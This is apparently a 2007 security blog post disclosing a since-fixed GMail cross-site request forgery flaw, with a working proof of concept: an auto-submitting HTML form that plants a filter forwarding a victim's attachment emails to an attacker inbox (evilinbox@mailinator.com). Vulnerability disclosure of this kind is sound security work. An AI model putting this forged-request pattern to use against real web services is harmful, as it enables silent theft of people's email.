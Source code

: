 ```yaml
---
title: Google GMail E-mail Hijack Technique
author: pdp
date: Tue, 25 Sep 2007 18:50:33 GMT
template: post.pug
---
```


In this post I am going to show you how someone can remotely install a simple, persistent filter within a GMail account and download all previous as well as snoop onto all future email conversations.

The following sequence of screenshots describes how the attack works.

<div class="screen">[![GGEHT Seq1](/files/2007/09/ggeht-seq1-248x150.jpg "GGEHT Seq1")](/files/2007/09/ggeht-seq1.jpg) [![GGEHT Seq2](/files/2007/09/ggeht-seq2-248x150.jpg "GGEHT Seq2")](/files/2007/09/ggeht-seq2.jpg) [![GGEHT Seq3](/files/2007/09/ggeht-seq3-248x150.jpg "GGEHT Seq3")](/files/2007/09/ggeht-seq3.jpg)</div>

The victim visits a malicious page while being logged into GMail. Upon that, the page performs a `multipart/form-data` `POST` to one of the GMail alternative interfaces and injects a filter into the victim's filter list. In the example above, the attacker writes a filter, which simply looks for emails with attachments and forward them to an email of their choice. This filter will automatically transfer all emails matching the rule. Keep in mind that future emails will be forwarded as well. The attack will remain **present** for as long as the victim has the filter within their filter list, even if the initial vulnerability, which was the cause of the injection, is fixed by Google.

The technique used in this example is known as Cross-site request forgery, or simply CSRF. I am not planning to go into details how it works. Just look it up on this blog or with your favourite search engine.

I am not planning to release the details of this vulnerability for now. The exploit was verified by [Ryan Naraine](http://blogs.zdnet.com/security/) and several close friends. It does work and it is nasty if you ask me.

**UPDATE 2007/09/28**: I promised to release the POC as soon as Google fixes the vulnerability. Well they did. So, here are the details:

    <form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    	<input type="hidden" name="cf2_emc" value="true"/> 
    	<input type="hidden" name="cf2_email" value="evilinbox@mailinator.com"/> 
    	<input type="hidden" name="cf1_from" value=""/> 
    	<input type="hidden" name="cf1_to" value=""/> 
    	<input type="hidden" name="cf1_subj" value=""/> 
    	<input type="hidden" name="cf1_has" value=""/> 
    	<input type="hidden" name="cf1_hasnot" value=""/> 
    	<input type="hidden" name="cf1_attach" value="true"/> 
    	<input type="hidden" name="tfi" value=""/> 
    	<input type="hidden" name="s" value="z"/> 
    	<input type="hidden" name="irf" value="on"/> 
    	<input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
    </form> 
    <script> 
    	document.forms[0].submit();
    </script>

_The actual exploit can be launched from [here](/files/2007/09/ggeht-exploit.htm). It makes use of a CSRF redirection utility to simplify the process._
